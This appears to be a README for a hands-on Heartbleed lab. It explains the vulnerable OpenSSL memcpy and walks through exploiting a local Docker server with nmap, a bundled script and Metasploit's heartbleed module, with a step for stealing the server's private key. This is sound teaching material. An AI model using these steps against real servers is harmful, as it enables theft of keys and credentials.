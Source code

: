 # Heartbleed Example

## Additional info

**Format of the Heartbeat request/response packet**

```c
struct {
    HeartbeatMessageType type;  // 1 byte: request or the response
    uint16 payload_length;      // 2 byte: the length of the payload
    opaque payload[HeartbeatMessage.payload_length];
    opaque padding[padding_length];
} HeartbeatMessage;
```

The first field (1 byte) of the packet is the type information, and the second field (2 bytes) is the payload length, followed by the actual payload and paddings. The size of the payload should be the same as the value in the payload length field, but in the attack scenario, payload length can be set to a different value. The following code snippet shows how the server copies the data from the request packet to the response packet.

**Process the Heartbeat request packet and generate the response packet**

```c
/* Allocate memory for the response, size is 1 byte
 * message type, plus 2 bytes payload length, plus
 * payload, plus padding
*/

unsigned int payload;
unsigned int padding = 16; /* Use minimum padding */

// Read from type field first
hbtype = *p++; /* After this instruction, the pointer
                * p will point to the payload_length field */

// Read from the payload_length field from the request packet
n2s(p, payload); /* Function n2s(p, payload) reads 16 bits
                  * from pointer p and store the value
                  * in the INT variable "payload". */

pl = p; // pl points to the beginning of the payload content

if (hbtype == TLS1_HB_REQUEST)
{
    unsigned char *buffer, *bp;
    int r;

    /* Allocate memory for the response, size is 1 byte
     * message type, plus 2 bytes payload length, plus
     * payload, plus padding
     */

    buffer = OPENSSL_malloc(1 + 2 + payload + padding);
    bp = buffer;

    // Enter response type, length and copy payload *bp++ = TLS1_HB_RESPONSE;
    s2n(payload, bp);

    // copy payload
    memcpy(bp, pl, payload);   /* pl is the pointer which
                                * points to the beginning
                                * of the payload content */
    bp += payload;

    // Random padding
    RAND_pseudo_bytes(bp, padding);

    // this function will copy the 3+payload+padding bytes
    // from the buffer and put them into the heartbeat response
    // packet to send back to the request client side.
    OPENSSL_free(buffer);
    r = ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, 3 + payload + padding);
}
```

**The vulnerability lies here**

```c
    // copy payload
    memcpy(bp, pl, payload);
```

There is no check to determine if `pl` is valid or not. Therefore, a memory breach can occur.

## Requirements and instalation

* Docker
* Metasploit
* Python 2
```shell
sudo apt-get update
sudo apt-get install -y python2-dev docker.io metasploit-framework curl
```
* Python 2 packages
```shell
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output /tmp/get-pip.py
sudo python2 /tmp/get-pip.py
pip install --upgrade setuptools
pip install gmpy pyasn1
```
## Docker Setup

```shell
docker pull docker.io/andrewmichaelsmith/docker-heartbleed
```
## Clone Repository

```shell
git clone https://github.com/okrutnik420/heartbleed.git &&
cd heartbleed &&
chmod 755 *
```

## Run the container

On a terminal window, run the command:

```shell
sudo docker run -it -p 127.0.0.1:443:443 andrewmichaelsmith/docker-heartbleed bash
```

This command will execute bash in conatiner and map host adress 127.0.0.1:443 to local conatiner adress on port 443

Type exit to exit container


## Run the server
inside contrainer run"
```shell
apache2ctl -D FOREGROUND
```
You can access server via https://127.0.0.1
(unfortunetly this is default website for old version of apache2)

## Stimulate the server

Before exploiting, you must stimulate the server with potentially sensitive data
that can be harvested later by the exploit. The `stimulate_server.py` script
does that, sending random credentials to the server via HTTP POST requests. The
following is its usage and options:

```shell
Usage: stimulate_server.py [-a server_address] [-t sleep]
```
## Excercise 1: Get to know server

* using nmap check if server is vulnerable
```shell
sudo nmap -p 443 --script ssl-heartbleed 127.0.0.1
```

* if you wish to run another instance of bash inside container do:
```shell
sudo docker ps -a 
sudo docker exec -it <id> /bin/bash
```
* view certificate
```hint
Inspect Dockerfile to check how server was set up
```
* check openssl version

## Excercise 2 Exploit using script

This repo includes heartbleed.py script (in python2)

```shell
chmod 755 heartbleed.py
./heartbleed.py -h
```

* using script try to extract some sensitive data
* set verbose option analize how script executes
* try to steal server private key and certificate

To populate server memory with keys run:
```shell
watch 'cat /etc/apache2/ssl/apache.crt ; cat /etc/apache2/ssl/apache.key'

```

## Excersice 3 Exploit using metaspoit

* Start the Metasploit console
```shell
sudo msfconsole
```
* Search Heartbleed module by using built in search feature in Metasploit framework
```shell
search heartbleed
```

* Load the heartbleed by module
```shell
use auxiliary/scanner/ssl/openssl_heartbleed
```

* After loading the auxiliary module, extract the info page to reveal the options to set the target
```shell
show info
```

* This is a list of all auxiliary actions that the scanner/ssl/openssl_heartbleed module can do:
```shell
show actions
```

* Here is a complete list of advanced options supported by the scanner/ssl/openssl_heartbleed auxiliary module:
```shell
show advanced
```

* To view full list of possible evasion options supported by the scanner/ssl/openssl_heartbleed auxiliary module in order to evade defenses:
```shell
show evasion
```

* Set desired RHOST Action and Run

